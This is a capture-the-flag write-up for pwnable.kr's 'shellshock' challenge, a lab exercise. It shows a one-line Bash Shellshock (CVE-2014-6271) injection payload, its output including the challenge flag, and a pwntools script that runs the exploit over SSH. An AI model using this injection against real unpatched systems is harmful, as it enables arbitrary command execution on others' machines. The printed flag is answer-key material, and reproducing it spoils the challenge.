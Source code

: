 # pwnable.kr shellshock writeup by pwn4magic

Challenge Description :
```
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)
```

After we connect to the pwnable.kr server, we can see these files :

```bash
shellshock@prowl:~$ ls -la
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 114 root root             4096 May 19 15:59 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
shellshock@prowl:~$ 
```

Obviously, we'll read the flag using the shellshock vulnerability. What is shellshock ?

Shellshock is a code injection attack in Bash 4.3 and earlier.

Simply our payload will go like this :

```bash
env x='() { :;}; /bin/cat flag' ./shellshock
```

And Voilà

```bash
shellshock@prowl:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
shellshock@prowl:~$ 
```

Flag : `only if I knew CVE-2014-6271 ten years ago..!!`

pwntools exploit :

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'DEBUG'

log.info('pwnable.kr - shellshock exploit by pwn4magic')

shell = ssh('shellshock', 'pwnable.kr', password='guest', port=2222)

sh = shell.run('env x="() { :;}; /bin/cat flag" ./shellshock')

log.success(sh.recvline())
```

\ (•◡•) / yay! See ya!

References : https://metalkey.github.io/shellshock-explained--exploitation-tutorial.html
